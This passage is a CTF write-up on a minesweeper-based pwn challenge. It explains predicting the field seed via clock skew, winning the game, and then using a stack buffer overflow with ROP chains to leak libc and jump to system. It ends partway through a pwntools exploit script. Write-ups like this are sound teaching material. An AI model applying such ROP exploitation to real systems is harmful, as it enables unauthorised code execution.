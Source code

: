 So we can happily ROP away into sunset as soon as we win minesweeper.

So we reverse engineered (aka copy-pasted from a certain decompiler) the field
setup function and made a C version out of it. We then launched a socket to the
challenge server and started our program. We then tried whether there are
strategies which would make us faster, but we didn't find a way to open up more
than one field at once.

We also used a shell we got from a previous pwn challenge to find out the
clock difference of the server and our machine. Turns out it was
131 seconds, which is quite a lot more than we expected. It would be possible
to bruteforce this, but this way it's a little more precise. Further it 
may take a couple of tries to get the seeding right.

So we put a python script around this to play minesweeper and we managed to
play through it, but never reached the winning condition. That sucked. So we
contacted the admins to see whether this was intended and a couple of minutes
later the challenge was taken down. The next day in the morning the challenge
was back up, but changed quite a bit. It was a 16x16 field now and it had some
additional checks and also the input didn't consit only of the two 
coordinates in the field anymore, but now had a third number.

It took us a while to figure out what this third number was for. To trigger the
winning condition you had to tell it where all the bombs are. The third number
was for this.

So we played minesweeper and triggered the winning condition by also marking
all bombs. Then used the buffer overflow on the stack to put our ROP chain on
the stack. We leaked the address of the libc with a first ROP chain and with a
second one we jumped to system.

Here is the python part of the exploit.

```python
#!/usr/bin/env python
# for second version

import subprocess as sp

from pwn import *  # NOQA

# libc = ELF("/usr/lib/libc-2.24.so")
# leaked libc from a previous pwn challenge
libc = ELF("../persian_150/lib/x86_64-linux-gnu/libc-2.19.so")
velf = ELF("./fastsweeper")
context.arch = velf.arch

gdbscript = """
init-pwndbg
# break *0x00401c9e
break *0x00401597
break *0x00401630  # cmp with first num
break *0x00401ded
"""
# vp = process("./fastsweeper")
# vp = process("./fastsweeper_patched")
vp = remote("ctf.sharif.edu", 54516)

# ######### play ########## #

o = sp.check_output(['./init_field', '131'])
# o = sp.check_output(['./init_field', '0'])
# print(o)
moves = []
bombs = []
for line in o.split("\n"):
    if line.strip():
```